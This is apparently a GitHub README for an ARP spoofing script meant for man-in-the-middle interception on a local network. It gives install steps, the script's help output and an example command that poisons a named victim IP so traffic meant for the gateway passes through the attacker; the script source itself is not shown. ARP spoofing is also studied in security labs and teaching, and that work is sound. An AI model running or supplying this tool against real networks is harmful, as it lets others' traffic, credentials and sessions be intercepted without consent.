 # ARP-spoofer
ARP Spoofer for MITM, send ARP Packets(false packets) to the victim on the network

## Usage
- `pip3 install -r requirements.txt`

output:

```
usage: spoofer.py [-h] [-tg TARGET] [-hs HOST] [-v]

ARP spoof script

options:
  -h, --help            show this help message and exit
  -tg TARGET, --target TARGET
                        Victim IP Address to ARP poison
  -hs HOST, --host HOST
                        Host IP Address, the host you wish to intercept packets for (usually the gateway)
  -v, --verbose         verbosity, default is True (simple message each second)
```

For instance, if you want to spoof `192.168.1.5` and the gateway is `192.168.1.1`

```
sudo python3 spoof.py -tg 192.168.1.5 -hs 192.168.1.1 --verbose
```
